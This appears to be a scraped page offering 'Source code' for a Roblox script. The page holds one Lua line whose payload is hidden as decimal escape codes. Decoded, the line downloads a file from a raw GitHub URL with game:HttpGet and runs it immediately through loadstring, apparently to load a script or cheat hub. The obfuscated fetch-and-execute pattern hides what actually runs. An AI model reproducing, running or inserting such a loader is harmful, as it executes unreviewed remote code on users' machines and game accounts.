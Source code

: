 loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\80\114\111\116\111\82\66\76\88\47\80\114\111\116\111\45\115\45\72\117\98\45\118\46\54\47\109\97\105\110\47\82\69\65\68\77\69\46\109\100\34\44\32\116\114\117\101\41\41\40\41\10")()
